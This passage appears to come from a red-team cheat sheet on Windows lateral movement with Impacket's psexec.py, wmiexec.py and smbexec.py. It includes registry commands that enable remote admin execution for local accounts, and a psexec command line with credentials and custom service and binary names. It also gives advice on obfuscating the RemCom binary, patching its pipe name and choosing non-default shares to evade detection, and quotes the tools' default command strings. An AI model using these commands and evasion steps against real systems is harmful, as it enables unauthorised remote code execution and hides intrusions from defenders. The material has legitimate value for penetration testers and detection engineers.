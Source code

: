 To allow Non-RID 500 local admin accounts performing Wmi or PsExec, execute: 
`reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /f /d 1`
To prevent RID 500 from being able to WmiExec or PsExec, execute:
`reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v FilterAdministratorToken /t REG_DWORD /f /d 1`


### PSExec

Instead of uploading `psexeccsv` service binary, it uploads to `ADMIN$` a service binary with an arbitrary name.
PSExec default [kavika13/RemCom](https://github.com/kavika13/RemCom) binary is 10 years old, you might want to rebuild it and obfuscate it to reduce detections ([snovvcrash/RemComObf.sh](https://gist.github.com/snovvcrash/123945e8f06c7182769846265637fedb))

Use a custom binary and service name with : `psexec.py Administrator:Password123@IP -service-name customservicename -remote-binary-name custombin.exe`    

Also a custom file can be specified with the parameter : `-file /tmp/RemComSvcCustom.exe`.    
You need to update the pipe name to match "Custom_communication" in the line 163     

```py
162    tid = s.connectTree('IPC$')
163    fid_main = self.openPipe(s,tid,r'\RemCom_communicaton',0x12019f)
```

Alternatively you can use the fork [ThePorgs/impacket](https://github.com/ThePorgs/impacket/pull/3/files).


### WMIExec

Use a non default share `-share SHARE` to write the output to reduce the detection.   
By default this command is executed : `cmd.exe /Q /c cd 1> \\127.0.0.1\ADMIN$\__RANDOM 2>&1`


### SMBExec

It creates a service with the name `BTOBTO` ([smbexec.py#L59](https://github.com/fortra/impacket/blob/master/examples/smbexec.py#L59)) and transfers commands from the attacker in a bat file in `%TEMP/execute.bat` ([smbexec.py#L56](https://github.com/fortra/impacket/blob/master/examples/smbexec.py#L56)).

```py
OUTPUT_FILENAME = '__output'
BATCH_FILENAME  = 'execute.bat'
SMBSERVER_DIR   = '__tmp'
DUMMY_SHARE     = 'TMP'
SERVICE_NAME    = 'BTOBTO'
```

It will create a new service every time we execute a command. It will also generate an Event 7045.

By default this command is executed: `%COMSPEC% /Q /c echo dir > \\127.0.0.1\C$\__output 2>&1 > %TEMP%\execute.bat & %COMSPEC% /Q /c %TEMP%\execute.bat & del %TEMP%\execute.bat`, where `%COMSPEC%` points to `C:\WINDOWS\system32\cmd.exe`.
